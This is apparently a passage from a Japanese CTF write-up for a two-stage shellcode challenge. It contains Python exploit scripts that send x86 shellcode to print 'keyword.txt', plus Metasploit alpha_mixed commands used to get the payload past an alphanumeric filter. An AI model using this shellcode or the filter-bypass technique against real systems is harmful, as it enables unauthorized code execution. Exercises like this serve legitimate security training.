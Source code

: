     #cat keyword.txt
    buf =  ""
    buf += "\xeb\x36\xb8\x05\x00\x00\x00\x5b\x31\xc9\xcd\x80\x89"
    buf += "\xc3\xb8\x03\x00\x00\x00\x89\xe7\x89\xf9\xba\x00\x10"
    buf += "\x00\x00\xcd\x80\x89\xc2\xb8\x04\x00\x00\x00\xbb\x01"
    buf += "\x00\x00\x00\xcd\x80\xb8\x01\x00\x00\x00\xbb\x00\x00"
    buf += "\x00\x00\xcd\x80\xe8\xc5\xff\xff\xff\x6b\x65\x79\x77"
    buf += "\x6f\x72\x64\x2e\x74\x78\x74\x00"
     
    sys.stdout.write(pack.pl32(len(buf)))
    sys.stdout.flush()
    sys.stdout.write(buf)

#### stage2

フィルターでシェルコードが 英数字で構成されているかチェックされる。

metasploitのx86/alpha\_mixed
エンコーダでシェルコードを英数字に変換する。

alpha\_mixedエンコーダは
シェルコードのアドレスが入ったレジスタを指定しないとシェルコードの全てが英数字にならない。

シェルコードへのアドレスがEAXに残っているので、

    msf> set BufferRegister EAX
    msf> generate -e x86/alpha_mixed

でシェルコードを生成する。

exploit:

    #!/usr/bin/python
    import pack
    import sys
    import time
     
    #cat keyword.txt
    buf =  ""
    buf += "\x50\x59\x49\x49\x49\x49\x49\x49\x49\x49\x49\x49\x49"
    buf += "\x49\x49\x49\x49\x49\x37\x51\x5a\x6a\x41\x58\x50\x30"
    buf += "\x41\x30\x41\x6b\x41\x41\x51\x32\x41\x42\x32\x42\x42"
    buf += "\x30\x42\x42\x41\x42\x58\x50\x38\x41\x42\x75\x4a\x49"
    buf += "\x58\x6b\x67\x46\x4c\x78\x75\x55\x37\x70\x67\x70\x73"
    buf += "\x30\x31\x4b\x56\x51\x4f\x39\x58\x4d\x4d\x50\x6b\x39"
    buf += "\x6a\x63\x6d\x68\x64\x43\x43\x30\x67\x70\x45\x50\x6b"
    buf += "\x39\x79\x77\x6b\x39\x38\x79\x4f\x4a\x35\x50\x66\x70"
    buf += "\x35\x50\x65\x50\x58\x4d\x4f\x70\x6f\x79\x4f\x32\x4e"
    buf += "\x58\x66\x64\x57\x70\x77\x70\x35\x50\x4d\x6b\x43\x31"
    buf += "\x73\x30\x63\x30\x45\x50\x78\x4d\x6d\x50\x58\x38\x33"
    buf += "\x31\x75\x50\x57\x70\x77\x70\x4d\x6b\x35\x50\x43\x30"
    buf += "\x47\x70\x53\x30\x68\x4d\x4b\x30\x79\x78\x69\x55\x6b"
    buf += "\x4f\x6b\x4f\x69\x6f\x62\x4b\x63\x55\x61\x69\x31\x67"
    buf += "\x52\x4f\x50\x72\x35\x34\x76\x4e\x44\x34\x31\x68\x63"
    buf += "\x44\x73\x30\x41\x41"
    sys.stdout.write(pack.pl32(len(buf)))
    sys.stdout.flush()
    sys.stdout.write(buf)
